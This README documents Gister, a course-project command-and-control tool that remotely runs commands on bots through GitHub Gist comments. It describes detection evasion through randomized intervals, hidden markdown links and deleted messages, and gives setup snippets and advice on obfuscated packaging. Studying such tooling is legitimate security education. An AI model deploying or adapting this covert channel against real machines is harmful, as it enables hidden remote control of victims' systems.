 # Gister
## Description
C&C CLI controller and bot that use gist.github.com for communication.
The bot uses comments under a given Gist to communicate with the controller.  
To evade detection, all intervals for pinging and checking new messages are randomized and some steganography is used (links in markdown are not shown if the alternate text field is empty).  
If a message was "consumed" (read and responded to), it is immediately removed from the Gist comment thread.

## Usage
### Controller
For running the controller, you have to create another python script which initalizes the class Controller with the specified parameters.
```python
from controller import Controller


def main():
    controller = Controller(
        "ghp_xxxxxxxxxxxxxxxxxxxxxxxxxx",                   # GitHub Personal Access Token
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",                   # Gist ID of the Gist to be used for communication
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx="      # 32-byte seed in Base64 (`openssl rand -base64 32`) used to generate the private key used for signing commands
    )


if __name__ == "__main__":
    main()
```
After executing this script, you get an interactive prompt and a VerifyKey used by the bots to verify the signed commands messages.
```shell
Verify key: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx=
(*)$ 
```
The interactive shell supports a couple of commands, which are described in the help menu.
```shell
(*)$ help

Gister Bot C&C CLI
==================
List of available commands:
status			=> Prints the number of available bots
list			=> Lists available (alive) bots
bot <bot id>	        => Selects a bot to execute commands on
exec <command>	        => Executes a command on a selected bot
exit			=> Cleans up the communication channel and exits
```
  
### Bot
For running the bot, you have to create yet another python script that initalizes the class Bot with the specified parameters.
```python
from bot import Bot


def main():
    bot = Bot(
        "ghp_xxxxxxxxxxxxxxxxxxxxxxxxxx",                   # GitHub Personal Access Token
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",                   # Gist ID of the Gist to be used for communication
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx="      # The VerifyKey generated by the controller
    )


if __name__ == "__main__":
    main()
```

### Execution
You can create stand-alone self-contained executables from the scripts given in **Usage** using PyInstaller.
You can also create python scripts, which contain the relevant classes, obfuscate them and use those.

## Disclaimer
This project was made for educational purposes only as a part of the B4M36BSY course on the Faculty of Electrical Engineering, Czech Technical University in Prague.
